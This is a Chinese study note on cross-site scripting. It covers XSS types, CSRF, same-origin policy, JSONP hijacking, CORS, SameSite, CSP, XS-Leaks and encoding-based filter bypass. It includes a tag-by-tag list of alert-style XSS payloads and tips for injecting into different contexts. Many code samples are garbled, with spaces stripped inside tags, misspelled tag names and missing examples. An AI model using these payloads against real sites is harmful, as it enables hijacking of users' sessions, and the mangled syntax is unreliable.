







# XSS 跨站脚本攻击

### 前言

- 可以看这篇文章：[xss漏洞学习小结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/289263.html)


## 一、初识XSS

### 1、什么是XSS

XSS 全称跨站脚本(**Cross Site Scripting**)，为避免与层叠样式表 (Cascading Style Sheets, CSS) 的缩写混淆，故缩写为 **XSS**。这是一种将任意 Javascript 代码插入到其他 Web 用户页面里执行以达到攻击目的的漏洞。

攻击者利用浏览器的动态展示数据功能，在 HTML 页面里嵌入恶意代码。当用户浏览该页时，这些潜入在 HTML 中的恶意代码会被执行，用户浏览器被攻击者控制，从而达到攻击者的特殊目的，如 cookie 窃取等。

### 2、XSS 产生原因、漏洞原理

形成 XSS 漏洞的主要原因是**程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害。**

### 3、XSS会造成那些危害？

攻击者通过 Web 应用程序发送恶意代码，一般以浏览器脚本的形式发送给不同的终端用户。当一个 Web 程序的用户输入点没有进行校验和编码，将很容易的导致 XSS。

```xml
1、网络钓鱼，包括获取各类用户账号
2、窃取用户cookies资料，从而获取用户隐私信息，或利用用户身份进一步对网站执行操作；
3、劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、强制发表日志、电子邮件等
4、强制弹出广告页面、刷流量等
5、网页挂马；
6、进行恶意操作，如任意篡改页面信息、删除文章等
7、进行大量的客户端攻击，如 ddos 等
8、获取客户端信息，如用户的浏览历史、真实 ip 、开放端口等
9、控制受害者机器向其他网站发起攻击；
10、结合其他漏洞，如 csrf，实施进步危害；
11、提升用户权限，包括进一步渗透网站
12、传播跨站脚本蠕虫等
```

### 4、XSS的防御

形成XSS漏洞的主要原因是**程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害。**

因此在 XSS 漏洞的防范上，一般会采用 `对输入进行过滤` 和 `对输出进行转义` 的方式进行处理。

- 输入过滤：对输入进行过滤，不允许可能导致 XSS 攻击的字符输入。
- 输出转义：根据输出点的位置对输出到前端的内容进行适当转义。

### 5、XSS常见出现的地方

1、数据交互的地方

> get、post、cookies、headers
>
> 反馈与浏览
>
> 富文本编辑器
>
> 各类标签插入和自定义

2、数据输出的地方

> 用户资料
>
> 关键词、标签、说明
>
> 文件上传

### 6、XSS的分类

#### 反射性 XSS

又称非持久型 XSS，这种攻击方式往往具有一次性，只在用户单击时触发。跨站代码一般存在链接中，当受害者请求这样的链接时，跨站代码经过服务端反射回来，这类跨站的代码通常不存储在服务端。

```
常见注入点:
网站的搜索栏、用户登录入口、输入表单等地方，常用来窃取客户端cookies或钓鱼欺骗。
漏洞产生原因一般是网站只是简单地将用户输入的数据直接或未经过完善的安全过滤就在浏览器中进行输岀，导致输岀的欻据中存在可被浏览器执行的代码数据
攻击方式
攻击者通过电子邮件等方式将包含XSS代码的恶意链接发送给目标用户。当目标用户访问该链接时，服务器接受该目标用户的请求并进行处理，然后服务器把带有XSS的代码发送给目标用户的浏览器，浏览器解析这段带有XSS代码的恶意脚本后，就会触发XSS漏洞。

由于此种类型的跨站代码存在于URL中，所以黑客通常需要通过诱骗或加密变形等方式将存在恶意代码的链接发给用户，只有用户点击以后才能使得攻击成功实施。

```

反射型XSS攻击的流程如下：

1.攻击者寻找具有漏洞的网站

2.攻击者给用户发了一个带有恶意字符串的链接

3.用户点击了该链接

4.服务器返回HTML文档，此时该文档已经包含了那个恶意字符串

5.客户端执行了植入的恶意脚本，XSS 攻击发生


#### 存储型 XSS

存储型 XSS（ Stored xss Attacks），也是持久型 XSS，比反射型 XSS 更具有威胁性。。攻击脚本将被永久的存放在目标服务器的数据库或文件中。这是利用起来最方便的跨站类型，跨站代码存储于服务端（比如数据库中）

```
常见注入点
论坛、博客、留言板、网站的留言、评论、日志等交互处。
造成漏洞原因一般是由于Web应用程序对用户输入数据的不严格，导致Web应用程序将黑客输入的恶意跨站攻击数据信息保存在服务端的数据库或其他文件形式中。
攻击方式
攻击者在发帖或留言的过程中，将恶意脚本连同正常信息一起注入到发布内容中。随着发布内容被服务器存储下来，恶意脚本也将永久的存放到服务器的后端存储器中。当其他用户浏览这个被注入了 
恶意脚本的帖子时，恶意脚本就会在用户的浏览器中得到执行。
```

存储型ⅩSS攻击的流程如下

1.用户提交了一条包含XSS代码的留言到数据库

2.当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来

3.XSS 代码被当做正常的 HTML 和 JS 解析执行

#### DOM 型 XSS

DoM 是文档对象模型（ Document Object Model）的缩写。它是 HTML 文档的对象表示，同时也是外部内容（例如 JavaScript）与HTML元素之间的接口。解析树的根节点是“ Document"对象。DOM（ Document object model），使用DOM能够使程序和脚本能够动态访问和更新文档的内容、结构和样式。

它是基于DoM 文档对象的一种漏洞，并且 DOM 型 XSS 是基于 JS 上的，并不需要与服务器进行交互。

其通过修改页面DOM节点数据信息而形成的 XSS 跨站脚本攻击。不同于反射型XSS和存储型XSS，基于DOM的XSS跨站脚本攻击往往需要针对具体的 Javascript DOM代码进行分析，并根据实际情况进行XSS跨站脚本攻击的利用。

一种基于DOM的跨站，这是客户端脚本本身解析不正确导致的安全问题

```
注入点
通过js脚本对对文档对象进行编辑，从而修改页面的元素。也就是说，客户端的脚本程序可以DOM动态修改页面的内容，从客户端获取DOM中的数据并在本地执行。由于DOM是在客户端修改节点的，所 
以基于DOM型的XSS漏洞不需要与服务器端交互，它只发生在客户端处理数据的阶段。
攻击方式
用户请求一个经过专门设计的URL，它由攻击者提供，而且其中包含XSS代码。服务器的响应不会以任何形式包含攻击者的脚本，当用户的浏览器处理这个响应时，DOM对象就会处理XSS代码，导致存 
在XSS漏洞。
它的流程是这样的：
```


1.攻击者寻找具有漏洞的网站
2.攻击者给用户发了一个带有恶意字符串的链接
3.用户点击了该链接
4.服务器返回HTML文档，但是该文档此时不包含那个恶意字符串
5.客户端执行了该HTML文档里的脚本，然后把恶意脚本植入了页面
6.客服端执行了植入的恶意脚本，XSS攻击就发生了


反射型XSS与DOM型区别：

1、反射型XSS攻击中，服务器在返回HTML文档的时候，就已经包含了恶意的脚本;

2、DOM型ⅩSS攻击中，服务器在返回HTML文档的时候，是不包含恶意脚本的；恶意脚本是在其执行了非恶意脚本后，被注入到文档里的

通过JS脚本对对文档对象进行编辑，从而修改页面的元素。也就是说，客户端的脚本程序可以DOM动态修改页面的内容，从客户端获取DOM中的数据并在本地执行。由于DOM是在客户端修改节点的，所以基于DOM型的XSS漏洞不需要与服务器端交互，它只发生在客户端处理数据的阶段。

#### 其他类型的 XSS

##### MXSS

不论是服务器端或客户端的ⅩSS过滤器，都认定过滤后的HTM源代码应该与浏览器所渲染后的HTML代码保持一致，至少不会出现很大的出入

然而，如果用户所提供的富文本内容通过 Javascript 代码进属性后，一些意外的变化会使得这个认定不再成立：一串看似没有任何危害的HTML代码，将逃过XSS过滤器的检测，最终进入某个DOM节点中，浏览器的渲染引擎会将本来没有任何危害的HTML代码渲染成具有潜在危险的XSS攻击代码。 随后，该段攻击代码，可能会被JS代码中的其它一些流程输出到DOM中或是其它方式被再次渲染，从而导致XSS的执行。这种由于HTML内容进后发生意外变化（ mutation，突变，来自遗传学的一个单词，大家都知道的基因突变，gene mutation），而最终导致XS的攻击流程，被称为突变XSS（mXSs, Mutation based Cross-Site-Scripting

通常通过innerHTML函数进行html代码过滤



什么是HTML过滤器？为什么我们需要HTML过滤器？

许多web应用程序，以编辑器的形式，允许用户使用一些特殊的文本格式（例如，粗体，斜体等等）。这个功能在博客，邮件当中使用甚广。这里出现的主要安全问题就是有些不法用户可能输入一些恶意HTML/ avaScript从而引入XSS。 因此，这类允许用户进行个性化输入的应用程序的创建者就面临一个很头疼的问题如何确保用户的输入的HTML是安全的，从而不会引起不必要的XSS。 这就是为什么需要HTML过滤器的原因。HTML过滤器的主要目的是揪出不可信的输入，对其进行过滤，并生成安全的HTML过滤所有危险标签的HTML

举个例子



解析后，输入的html代码变成下面格式



通过html过滤器，过滤不在白名单的代码，得到如下无害html代码，也不会伤害到用户的正常功能


虽然HTML过滤器可以帮助我们处理大部分数据，能够处理99%的威胁，但是最后一公里路还是要有浏览器来渲染加载。 我们看一个简单的例子：


上面代码一开始并没有闭合的标签，通过渲染后自动加入闭合标签。

在赋值给 innerHTML之后，我们却得到一个不同的值。由于 HTML/XML格式的灵活性，用户可以输入非规范的HTML，修复成规范的HTML就是浏览器的责任了。

道理我都懂，但是有没有更直观的例子？


首先分配一个`<sg>`标签，`<p>`是它的子标签。但是从DOM树中我们可以发现，`<p>`元素实际上“跳出”了`<svg>`。发生这种情况的主要原因是`<p>`不是`<sg>`中的有效标签，因此浏览器会在结束`<SVg>`后打开`<p>`




##### UXSS

UXSS全称Universal Cross-Site Scripting，翻译过来就是**通用型XSS**，也叫Universal XSS。UXSS保留了基本XSS的特点，利用漏洞，执行恶意代码，但是有一个重要的区别：不同于常见的XSS，UXSS是一种利用浏览器或者浏览器扩展漏洞来制造产生XSS的条件并执行代码的一种攻击类型。

俗的说，就是原来我们进行XSS攻击等都是针对Web应用本身，是因为Web应用本身存在漏洞才能被我们利用攻击；而UXSS不同的是通过浏览器或者浏览器扩展的漏洞来”制作ⅩSS漏洞”，然后剩下的我们就可以像普通XSS那样利用攻击了。

不同于常见的XSS,UXSS是一种利用浏览器或者浏览器扩展漏洞来制造产生XSS的条件并执行代码的一种攻击类型。UXSS是一种利用浏览器或者浏览器扩展漏洞来制造产生XSS的条件并执行代码的一种攻击类型。UXSS 可以理解为Bypass 同源策略。

常见的XSS攻击的是因为客户端或服务端的代码开发不严谨等问题而存在漏洞的目标网站或者应用程序。这些攻击的先决条件是页面存在漏洞， 而它们的影响往往也围绕着漏洞页面本身的用户会话。换句话说，因为浏览器的安全功能的影响，XSS攻击只能读取受感染的会话，而无法读取其他的会话信息，也就是同源策略的影响。

1.IE8跨站脚本过滤器缺陷

David Lindsay和 Eduardo vela Nava已经在2010年的 BlackHat Europe展示了这个漏洞的UXSS利用。 IE8中内置了XSS过滤器，用于检测反射XSS并采取纠正措施：在页面渲染之前更改响应内容。在这种特殊情况下，等号将会被过滤器去除，但是通过精心构造的XSS字符串在特定的地方，这个逻辑会导致浏览器创建XSS条件。 微软的响应是改变了XSS过滤器去除的字符。

2.IE8跨站脚本过滤器缺陷

移动设备也不例外，而且可以成为XSS攻击的目标。 Chrome安卓版存在一个漏洞，允许攻击者将恶意代码注入到 Chrome通过 Intent对象加载的任意的Web页面

3.安卓浏览器SOP绕过漏洞

限制于特定的安卓系统版本，因为 kitkat（ android 4.4）之前 webview组件使用webview内核而遗留的漏洞。该漏洞可以通过构造一个页面，页面嵌入 iframe ，然后通过\u0000进行浏览器的sop绕过进行XSS


那么UXSS与通常的XSS有什么影响的区别？

因为一些安全策略，即使一个漏洞页面存在XSS，我们可以访问它的用户会话信息等但是无法访问其他域的相关的会话信息，而因为UXSS是利用浏览器本身或者浏览器扩展程序的漏洞，所以对于攻击发起时浏览器打开或缓存的所有页面（即使不同域的情况）的会话信息都可以进行访问。简单的说，∪XSS不需要—个漏洞页面来触发攻击，它可以渗透入安全没有问题的页面，从而创造一个漏洞，而该页面原先是安全无漏洞的。 不仅是浏览器本身的漏洞，现在主流浏览器都支持扩展程序的安装，而众多的浏览器扩展程序可能导致带来更多的漏洞和安全问题。 因为UXSS攻击不需要页面本身存在漏洞，同时可能访问其他安全无漏洞页面，使得UXSS成为XSS里危险和最具破坏性的攻击类型之一

### 七、常见标签

#### ``标签

##### 利用方式1

```javascript


 <!--CSS标记xss-->
>
> imgSTYLE="background-image:url(javascript:alert('XSS'))"

##### XSS 利用方式2

```javascript


```

##### XSS 利用方式3

```javascript
<imgsrc=1onmouseover=alert('xss')>
```

#### `<a>`标签

##### 标准格式

```javascript
<ahref="https://www.baidu.com">baidu</a>
```

##### XSS 利用方式1

> ```javascript
> <ahref="javascript:alert('xss')">aa</a>
> <ahref=javascript:eval(alert('xss'))>aa</a>
> <ahref="javascript:aaa"onmouseover="alert(/xss/)">aa</a>
> ```

##### XSS 利用方式2

> ```javascript
> <script>alert('xss')</script>
> ```

##### 利用方式3

```javascript
<ahref=""onclick=eval(alert('xss'))>aa</a>
```

##### 利用方式4

```javascript
<ahref=kycg.asp?ttt=1000 onmouseover=prompt('xss')y=2016>aa</a>
```

#### input 标签

##### 标准格式

```
<inputname="name"value="">
```

##### 利用方式1

```
<inputvalue=""onclick=alert('xss')type="text">
```

##### 利用方式2

```
<inputname="name"value=""onmouseover=prompt('xss')bad="">
```

##### 利用方式4

```
<inputname="name"value=""><script>alert('xss')</script>
```

#### `<form>`标签

##### XSS利用方式1

> ```javascript
> <formaction=javascript:alert('xss')method="get">
> <formaction=javascript:alert('xss')>
> ```

##### XSS利用方式2

> ```javascript
> <formmethod=postaction=aa.asp?onmouseover=prompt('xss')>
> <formmethod=postaction=aa.asp?onmouseover=alert('xss')>
> <formaction=1onmouseover=alert('xss)>
> ```

##### XSS利用方式3

> <!--原code-->
>
> ```
> <formmethod=postaction="data:text/html;base64,<script>alert('xss')</script>">
> ```
>
> <!--base64编码-->
>
> ```
> <formmethod=postaction="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
> ```

#### `<iframe>`标签

##### XSS利用方式1

```
<iframesrc=javascript:alert('xss');height=5width=1000/><iframe>
```

##### XSS利用方式2

```
<iframesrc="data:text/html,<script>alert('xss')</script>"></iframe>
```

<!--原code-->

```
<iframesrc="data:text/html;base64,<script>alert('xss')</script>">
```

<!--base64编码-->

```
<iframesrc="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

##### XSS利用方式3

```
<iframesrc="aaa"onmouseover=alert('xss')/><iframe>
```

##### XSS利用方式3

```
<iframesrc="javascript:prompt(`xss`)"></iframe>
```

#### `svg<>`标签

```
<svgonload=alert(1)>
```

## 二、session与cookie

### session

由于HTTP协议是无状态的协议，所以服务端需要记录用户的状态时，就需要用某种机制来识具体的用户，这个机制就是 Session

典型的场景比如购物车，当你点击下单按钮时，由于HTTP协议无状态，所以并不知道是哪个用户操作的，所以服务端要为特定的用户创建了特定的 Session，用用于标识这个用户，并且跟踪用户，这样才知道购物车里面有几本书。

这个 Session是保存在服务端的，有一个唯一标识。在服务端保存 Session的方法很多，内存、数据库、文件都有。集群的时候也要考虑 Session的转移，在大型的网站一般会有专门的 Session服务器集群，用来保存用户会话，这个时候 Session信息都是放在内存的，使用一些缓存服务比如 Memcached之类的来放 Session。

### cookie

思考一下服务端如何识别特定的客户？这个时候 Cookie就登场了。

每次HTTP请求的时候，客户端都会发送相应的Cookie信息到服务端。实际上大多数的应用都是用 Cookie来实现 Session跟踪的，第一次创建 Session的时候，服务端会在HTTP协议中告诉客户端，需要在Cookie里面记录个SessionID，以后每次请求把这个会话ID发送到服务器，我就知道你是谁了。

设想你某次登陆过一个网站，只需要登录一次就可以在一定时间内浏览这个网站的所有内容，这是如何做到的？也是 Cookie

Cookie是指某些网站为了辨别用户身份而储存在客户端上的数据（通常经过加密）。也就是说，只要有了某个用户的 cookie，就能以他的身份登录

获取cookie：

浏览器(客户端)：document.cookie

服务器端(php)：$_COOKIE

举例


知道了 cookie的格式， cookie的属性选项，接下来我们就可以设置 cookie了。首先得明确一点：cookie既可以由服务端来设置，也可以由客户端来设置。


1、一个Set-Cookie字段只能设置一个 cookie，当你要想设置多个 cookie，需要添加同样多的Set- Cookie字段。 2、服务端可以设置 cookie的所有选项：expires、 domain、path、 secure、 HttpOnly


客户端可以设置 cookie的下列选项：expires、 domain、path、 secure（有条件：只有在https协议的网页中，客户端设置 secure类型的 cookie才能成功），但无法设置 HttpOnly选项。

## 三、浏览器解析方式

语言的解析般分为词法分析（ lexical analysis）和语法分析（ Syntax analysis）两个阶段， Webkit中的HTML解析也不例外，我们这里主要关注词法分析。

词法分析的任务是对输入字节流进行逐字扫描，根据构词规则识别单词和符号，分在WebKⅰt中，有两个类，同词法分析密切相关，它是 HTMLToken和HTMLTokenizer类，可以简单将 HTMLToken类理解为标记， HTMLTokenizer类理解为词法解析器。HTML词法解析的任务，就是将输入的字节流解析成一个个的标记（ HTMLToken），然后由语法解析器进行下一步的分析

在XML/HTML 的文档解析中， token这个词经常用到，我将其理解为一个有完整语义的单元（也就是分出来的“词”），一个元素通常对应于3个 token，一个是元素的起始标签，一个是元素的结束标签，一个是元素的内容，这点同DOM树是不一样的，在DOM树上，起始标签和结束标签对应于一个元素节点，而元素内容对应另一个节点。

除了起始标签（ StartTag）、结束标签（仼 drAg）和元素内容（ Character），HTM标签还有 DOCTYPE（文档类型） Comment（注释）， Uninitialized（默认类型）和EndofFile（文档结束）等类型，参见 HTMLToken h中的Type枚举。

在HTML中，某些字符是预留的。例如在HTML中不能使用`<`或`>`，这是因为浏览器可能误认为它们是标签的开始或结束。如果希望正确地显示预留字符，就需要在HTML中使用对应的字符实体。一个HTML字符实体描述如下

字符显示 描述 实体名称 实体编号

< 小于号 &lt`<`

需要注意的是，某些字符没有实体名称，但可以有实体编号

HTML的词法分析：http://www.w3.org/TR/html5/tokenization.html

HTML的规范是相当宽松的，所以词法解析要考虑到的问题很多，HTML5 specification 在这方面为实现者做了绝大部分工作。 不考虑类似`<html>`和`<body>`之间的回车换行

......

## 四、XSS总结与拓展

（1）输入在标签间的情况：测试`<>`是否被过滤或转义，若无则直接`<mgsc=1 onerror=alert(1)>`

（2）输入在 script标签内：我们需要在保证内部JS语法正确的前提下，去插入我们的 payload。如果我们的输岀在字符串内部，测试字符串能否被闭合。如果我们无法闭合包裹字符串的引号，这个点就很难利用了

可能的解决方案：可以控制两处输入且`\`可用、存在宽字节

（3）输入在HTML属性內：首先査看属性是否有双引号包裏、没有则直接添加新的事件属性；

有双引号包裹则测试双引号是否可用，可用则闭合属性之后添加新的事件属性；

TIP：HTML的属性，如果被进行HTML实体编码（形如`&#039；&#x27`），那么HTML会对其进行自动解码，从而我们可以在属性里以HTML实体编码的方式引入任意字符，从而方便我们在事件属性里以JS的方式构造 payload。

（4）输岀在JS中，空格被过滤：使用`/**/`代替空格。 （5）输出在JS注释中：设法插入换行符`%0A`，使其逃逸出来。 （6）输入在JS字符串内：可以利用JS的十六进制、八进制、 unicode编码。 （7）输入在`src/ href /action`等属性内：可以利用 javascript:alert(1)，以及`data:text/html;base64;`加上base64编码后的HTML

（8） Chrome下 iframe自身的弹框姿势

<iframe onload="alert(1)"></iframe><iframe src="javascript:alert(2)"></iframe><iframe src=data text/html, <script>alert(3)</script>></iframe><iframe srcdoc="<script>alert(4))</script>"></iframe>

（9）坑点之自带 HtmlEncode（转义）功能的标签

<textarea>k/textarea><title></title><iframe ></iframe><noscript></noscript><noframes></noframes><xmp></xmp><plaintext></plaintext>

当我们的 XSS payload位于这些标签中间时，并不会解析，除非我们把它们闭合掉。

## 五、CSRF配合XSS

CSRF（ Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/ session riding，缩写为：CSRF/XSRF。 可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账……造成的问题包括：个人隐私泄露以及财产安全。 如果站点的管理员遭受CSRF攻击，在知道相关请求参数的情况下，攻击者可以借助管理员的权限来完成一些操作，如添加账户、上传文件等。 从而，在一些公共系统（如购物网站等）和一些开源系统当中，CSRF的危害较大；在闭源系统中，单纯的CSRF危害较小；不过这也是相对的，CSRF可以和XSS配合使用，从而实现较大的破坏。一旦利用成功，CSRF同样可以进后台、 getshell

### 例1



从上图可以看出，要完成一次CSRF攻击，受害者必须依次完成两个步骤 1.登录受信任网站A，并在本地生成 Cookie。 2.在不登出A的情况下，访问危险网站B。 看到这里，你也许会说：“如果我不满足以上两个条件中的一个，我就不会受到CSRF的攻击”。是的，确实如此，但你不能保证以下情况不会发生： 1.你不能保证你登录了一个网站后，不再打开—个tab页面并访问另外的网站。 2.你不能保证你关闭浏览器了后，你本地的 Cookie立刻过期，你上次的会话已经结束。（事实上，关闭浏览器并不能一定结束一个会话，但有些人都会错误的认为关闭浏览器就等于退出登录结束会话了… 3.上图中所谓的攻击网站，可能是一个存在其他漏洞的可信任的经常被人访问的网站。

### 例2

银行网站A，它以GET请求来完成银行转账的操作，如： http://www.mybank.com/transfer.php?tobankid=1l&money=1000存在一个危险网站B，它里面有一段HTML的代码如下


首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块，为什么会这样呢？

原因是银行网站A违反了HTTP规范，使用GET请求更新资源。在访问危险网站B的之前，你已经登录了银行网站A，而B中的`<mg>`以GET的方式请求第三方资源（这里的第三方就是指银行网站了，原本这是一个合法的请求，但这里被不法分子利用了），所以你的浏览器会带上你的银行网站A的 Cookie发出GET请求，去获取资源`"http://www.mybank.com/transfer.pHp?tobankid=11&money=1000"`，结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作.....

## 六、域、同源、CORS、 JSONP

### 同源

1995年，同源政策由 Netscape公司引入浏览器。目前，所有浏览器都实行这个政策。最初，它的含义是指，A网页设置的 Cookis，B网页不能打开，除非这两个网页"同源"

所谓“同源”指的是“三个相同”：

协议相同

域名相同

端口相同

看看示例来小试牛刀


同源政策的目的，是为了保证用户信息的安全，防止恶意的网站窃取数据。

设想这样一种情况：A网站是一家银行，用户登录以后，又去浏览其他网站。如果其他网站可以读取A网站的 Cookie，会发生什么？

很显然，如果 Cookie包含隐私（比如存款总额），这些信息就会泄漏。更可怕的是Cookie往往用来保存用户的登录状态，如果用户没有退出登录，其他网站就可以冒充用户，为所欲为。因为浏览器同时还规定，提交表单不受同源政策的限制。

由此可见，"同源政策"是必需的，否则 Cookie可以共享，互联网就毫无安全可言了。

随着互联网的发展，"同源政策" 越来越严格。目前，如果非同源，共有三种行为受到限制。

（1）Cookie、 LocalStorage 和 IndexDB 无法读取。 （2）DOM无法获得。 （3）AJAX请求不能发送。

当然，这些条件都是相对的，在某些特殊的情况下，我们也可以通过同源策略所允许的共享机制，完成非同源页面之间数据的传送。

### 跨域

所谓跨域，或者异源，是指主机名（域名）、协议、端口号 只要有其一不同，就为不同的域（或源）。浏览器中有一个基本的策略，叫同源策略，即限制"源"自A的脚本只能操作“同源”页面的DOM。 浏览器中，`< script>//< iframe>/<link>`等标签都是可以跨域来加载资源的而不受同源策略的影响。带″src′属性的标签每次加载时，实际上都是浏览器发起次”GET”请求。

对于 XMLHttpRequest来说，它可以访问来自同源对象的内容。但是不能够跨域访问资源。他需要通过目标域返回的HTTP头授权是否允许跨域访问，因为HTTP头对于 javascript来说一般是无法控制的，所以认为这个方案是可行的。

对于浏览器来说：除了DOM、Cookie、XMLTttpRequest会受到同源策略的限制外，浏览器加载的第三方插件也有各自的同源策略。例如：flash,java applet, silverlight, coogle gears等。

**跨域的方法**



### JSONP

#### JSONP跨城




#### JSONP劫持

(1）用户在网站B注册并登录，网站B包含了用户的d,name,emai等信息

(2）用户通过浏览器向网站A发出URL请求

(3）网站A向用户返回响应页面，响应页面中注册了 JavaScript的回调函数和向网站B请求的 script标签，示例代码如下`


(4）用户收到响应，解析JS代码，将回调函数作为参数向网站B发岀请求； (5）网站B接收到请求后，解析请求的URL，以SON格式生成请求需要的数据，将封装的包含用户信息的JSON数据作为回调函数的参数返回给浏览器，网站B返回的数据实例如下：`Callback(){id"：l，"name"：test"，"email"：testatest com"})`(6）网站B数据返回后，浏览器则自动执行 Callback函数对步骤4返回的JSON格式数据进行处理，通过alert 弹窗展示了用户在网站B的注册信息。另外也可将JSON数据回传到网站A的服务器，这样网站A利用网站B的JSONP漏洞便获取到了用户在网站B注册的信息。

### CORS

CORS是一个W3C标准，全称是"跨域资源共享"”（ Cross-origin resource sharing）

它允许浏览器向跨源服务器，发出 XMLHttpRequest请求，从而克服了AJAX只能同源使用的限制。 CORS需要浏览器和服务器同时支持。目前，所有浏览器都支持该功能，IE浏览器不能低于IE10。

浏览器端：

目前，所有浏览器都支持该功能（IE10以下不行）。整个CORS通信过程，都是浏览器自动完成，不需要用户参与。

服务端:

CORS通信与AJAX没有任何差别，因此你不需要改变以前的业务逻辑。只不过，浏览器会在请求中携带一些头信息，我们需要以此判断是否运行其跨域，然后在响应头中加入一些信息即可。这一般通过过滤器完成即可。


不符合简单请求的条件，会被浏览器判定为特殊请求，例如请求方式为PUT

特殊请求会在正式通信之前，增加一次HTTP查询请求，称为"预检"请求（ preflight）。

浏览器先询问服务器，当前网页所在的域名是否在服务器的许可名单之中，以及可以使用哪些HTTP动词和头信息字段。只有得到肯定答复，浏览器才会发出正式的XMLHttpRequest请求，否则就报错。

与简单请求相比，除了 Origin以外，多了两个头

Access-Control-Request-Method：接下来会用到的请求方式，比如PUT

Access- Control- Request-Headers：会额外用到的头信息


服务的收到预检请求，如果许可跨域，会发出响应


除了 Access-Contro-Allow-Origin和Aces-Contro-Allow-Credentials以外，这里又额外多出3个头：

Access-Contro|-Allow-Methods：允许访问的方式

Access-Control- Allow- Headers：允许携带的头

Access-Control-Max-Age：本次许可的有效时长，单位是秒，过期之前的ajax请求就无需再次进行预检了

如果浏览器得到上述响应，则认定为可以跨域，后续就跟简单请求的处理是一样的

### PostMessage跨城


### SameSite

Chrome51开始，浏览器的 Cookie新增加了—个 SameSite属性，用来防止CSRF攻击和用户追踪。

Cookie的 Samesite属性用来限制第三方 Cookie，从而减少安全风险。它可以设置个值 Strict 、 Lax、 None

Strict最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送Cookie。换言之，只有当前网页的URL与请求目标—致，才会带上 Cookie。

```
Set-Cookie:CookieName=CookieValue:SameSite=Strict;
```

这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub链接，用户点击跳转就不会带有 GitHub的 Cookie，跳转过去总是未登陆状态。

Lax规则稍稍放宽，大多数情况也是不发送第三方 Cookie，但是导航到目标网址的Get请求除外。

```
Set-Cookie:CookieName=CookieValue;SameSite=Lax
```

导航到目标网址的GET请求，只包括三种情况：链接，预加载请求，GET表单。详见下表。


Chrome计划将Lax变为默认设置。这时，网站可以选择显式关闭 SameSite属性将其设为None。不过，前提是必须同时设置 Secure属性（ Cookie只能通过 Https协议发送），否则无效。

下面的设置无效:

```
Set-Cookie:widget_session=abc123;SameSite=None
```

下面的设置有效:

```
Set-Cookie:widget_session=abc123;SameSite=None;Secure
```

## 七、CSP

CSP全称为 Content Security Policy，即**内容安全策略**。主要以白名单的形式配置可信任的内容来源，在网页中，能够使白名单中的内容正常执行（包含JS，CSS，Image等等），而非白名单的内容无法正常执行，从而减少跨站脚本攻击（XSS），当然，也能够减少运营商劫持的内容注入攻击。

为使CSP可用，你需要配置你的网络服务器返回`Content-Security-Policy HTTP`头部（有时你会看到一些关于X-Content-Security-Policy头部的提法，那是旧版本，你无须再如此指定它）

除此之外，`<meta>`元素也可以被用来配置该策略，例如


CSP旨在减少（注意这里是减少而不是消灭）跨站脚本攻击。CSP是一种由开发者定义的安全性政策性申明，通过CSP所约束的的规责指定可信的内容来源（这里的内容可以指脚本、图片、 iframe、font、 style等等可能的远程的资源）。通过CSP协定，让WEB处于—个相对安全的运行环境中。

无论是`反射型/存储型XSS`都因为其 payload富于变化而难以被彻底根除。

而目前通过对输入输出的检测浏览器自身的 filter 对反射型XSS有了一定的检测能力，但是对于存储型XSS仍然缺乏一个有效通用解决方案。

内容安全策略（csp）将在未来的XSS防御中扮演着日渐重要的角色。 但是由于浏览器的支持，XSS的环境复杂多变等问题，仍然会存在很多Bypass的方法。

## 八、XS-Leaks

跨站脚本泄漏（ Cross-Stie Leaks，又称XS- Leaks/ XSLeaks），是一类利用Web平台内置的侧信道衍生出来的漏洞。其原理是利用网络上的这种侧信道来揭示用户的敏感信息，如用户在其他网络应用中的数据、用户本地环境信息，或者是用户所连接的内部网络信息等。

浏览器提供了各种各样的功能来支持不同Web应用程序之间的互动；例如，浏览器允许一个网站加载子资源、导航或向另一个应用程序发送消息。虽然这些行为通常受到网络平台的安全机制的限制（例如同源政策），但XS- Leaks利用了网站之间互动过程中的各种行为来泄露用户信息。

既然是侧信道，那么这个信道从何而来呢？通常来说，这个信道需要结合题目设置的各种功能或者浏览器的某些特性，而往往这些功能或者特性对用户的返回只有两种回答，也就是类似SQL注入中布尔盲注攻击一样，只不过他放到了浏览器以及Web应用当中。举个简单例子，有这么一个搜索功能，对于用户搜索的内容如果存在，则返回200码，否则返回其他非200状态码响应，我们就可以从头挨个通过Web服务返回的状态码来判断自己传递的是否正确进而泄露Web服务当中的内容，于是我们还可以使用 onload等事件进一步进行自动化泄露。再举个小例子，在没有正确设置 SameSite的情况下，如果存在一些Web应用对于用户没有登录返回403，登录状态返回200，则可以一些跨域标签，比如 script可以依照这两种状态来判断用户是否登录。

XS-Leaks并不是说可以直接造成什么危害巨大的漏洞，它更侧重于Leak，侧重于信息泄露方面。并且造成大多数XS-Leaks的根本原因是网络设计上的问题，很多时候，web服务在没有漏洞的情况下就容易受到些信息泄露的影响。但是在浏览器层面修复XS-Leaks也是及其困难的，因为在许多情况下，会影响到很多现有的Web服务，会对原有的Web服务造成巨大的冲击。所以，要防御该类型的漏洞，通常是要使用各种严格的同源限制，才能达到预期效果。

## 九、XSS编码绕过

> js编码
>
> HTML实体编码
>
> URL编码
>
> String.fromCharCode编码

在线xss转码：https://www.toolmao.com/xsstranser

### JS编码

JS提供了四种字符编码的策略，

> 三个八进制数字，如果数字不够，在前面补零，如a的编码为\141
>
> 两个十六进制数字，如果数字不够，在前面补零，如a的编码为\x61
>
> 四个十六进制数字，如果数字不够，在前面补零，如a的编码为\u0061
>
